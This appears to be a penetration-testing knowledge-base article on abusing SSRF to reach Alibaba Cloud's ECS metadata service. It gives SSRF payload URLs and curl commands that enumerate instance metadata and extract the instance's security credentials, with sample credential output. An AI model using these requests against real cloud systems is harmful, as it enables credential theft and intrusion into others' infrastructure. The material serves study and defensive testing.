

# Alibaba Cloud

## Context

The purpose of this article is to explore the exploitation of Alibaba Cloud's Elastic Compute Service (ECS) metadata service through Server-Side Request Forgery (SSRF) vulnerabilities. This technique allows attackers to extract sensitive information from the cloud environment, highlighting security concerns associated with metadata services. It is assumed that readers are familiar with HTTP requests, cloud service architectures, metadata service concepts, and SSRF techniques.

## Theory

### Alibaba Cloud ECS Metadata Service Overview

Alibaba Cloud ECS instances provide a metadata service accessible through the internal endpoint `http://100.100.100.200/latest/meta-data/`. This service delivers a variety of instance-specific information to applications running on ECS instances. A significant vulnerability model underlying this service is the lack of authentication requirements, allowing any process within the instance's network to access metadata without restriction.

### Sensitive Metadata Elements

The metadata service exposes several sensitive endpoints such as `instance-id`, `image-id`, `security-credentials`, and `region-id`. These elements can be critical to the function of the ECS instance and, if exposed, can lead to a compromise of the infrastructure. SSRF vulnerabilities can be leveraged to trick applications into directing requests to these metadata endpoints, thereby leaking confidential data.

### Attack Sequence: SSRF to Metadata Extraction on Alibaba Cloud

The attack sequence involving SSRF and the Alibaba Cloud ECS metadata service typically follows these steps:

1. **Identify SSRF Primitive**: Locate an SSRF vulnerability in a web application hosted within the same network context as an ECS instance.

2. **Target Metadata Endpoint**: Use SSRF to make the vulnerable server request data from the Alibaba Cloud metadata endpoint.

3. **Extract Sensitive Metadata**: Retrieve the server's response containing the sensitive information.



### Security Implications of Metadata Exposure

Exposing metadata can have severe security implications, providing attackers with credentials that enable privilege escalation or lateral movement within the cloud environment. These credentials may be mistakenly trusted due to the assumption that only authorized workloads will access the metadata service, enhancing the potential severity of an exploit.

## Practice

### SSRF Exploitation to Extract Alibaba Cloud ECS Metadata

- **Objective**: Use SSRF to extract sensitive metadata from Alibaba Cloud ECS instances.

1. **Craft SSRF Payload**:
    - Target the Alibaba ECS metadata endpoint by crafting a payload that causes the vulnerable server to perform requests on behalf of the attacker.

    ```payload
    http://100.100.100.200/latest/meta-data/instance-id
    ```

2. **Send Payload via SSRF**:
    - Deploy the SSRF payload using a curl command to send a POST request to the vulnerable application endpoint.

    ```bash
    curl -X POST -d 'url=http://100.100.100.200/latest/meta-data/instance-id' https://vulnerable-app.example.com/ssrf-endpoint
    ```

3. **Review Output**:
    - Analyze the response to confirm access to the metadata service. A typical output might resemble:

    ```text
    i-abcdefgh123456789
    ```

4. **Enumerate Security Credentials**:
    - Proceed to enumerate the available IAM roles or credentials associated with the ECS instance.

    ```payload
    http://100.100.100.200/latest/meta-data/security-credentials/
    ```

5. **Extract Credentials**:

    - Use the SSRF vulnerability to extract security credentials, issuing a command such as:

    ```bash
    curl -X POST -d 'url=http://100.100.100.200/latest/meta-data/security-credentials/ecs-role-name' https://vulnerable-app.example.com/ssrf-endpoint
    ```

6. **Review Output**:
    - The server's stdout should return sensitive credentials, for example:

    ```json
    {
      "AccessKeyId": "LTAI4G...",
      "AccessKeySecret": "abcd1234...",
      "SecurityToken": "CAIS..."
    }
    ```

## Tools

- **curl**
